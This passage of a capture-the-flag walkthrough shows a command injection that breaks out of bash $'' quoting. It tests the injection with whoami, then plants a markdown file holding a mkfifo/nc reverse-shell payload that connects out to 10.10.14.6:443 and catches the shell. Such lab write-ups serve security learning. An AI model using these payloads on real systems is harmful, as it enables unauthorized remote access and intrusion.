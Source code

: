 
If I try to inject with `;`, it doesn’t work because the single quotes take
that as a string:

    
    
    oxdf@hacky$ echo $';id' 123123
    ;id 123123
    

But I can add single quotes into the string I control like this:

    
    
    oxdf@hacky$ echo $'';whoami; echo'' 123123
    
    oxdf
    123123
    

So that echo’s an empty string, runs `whoami`, and then prints the next
string.

I could do the same with a subshell (`$()`):

    
    
    oxdf@hacky$ echo $'$(whoami)' 123123
    $(whoami) 123123
    oxdf@hacky$ echo $''$(whoami)'' 123123
    oxdf 123123
    

#### Exploit

I’ll make a markdown file with the exploit using the same shell as above:

    
    
    oxdf@hacky$ cat cmdinj.md 
    '$(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 443 >/tmp/f)'
    

I’ll host the file and give the URL to the site, and it returns a shell:

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.160 49996
    /bin/sh: 0: can't access tty; job control turned off
    $ 
    

## Shell as root

### Enumeration

#### Filesystem

There’s not much of interest in the user’s home dir. The web app seems to be
running out of `app`, but I’ve already had access to that source code. The
live source does show the new MySQL user:
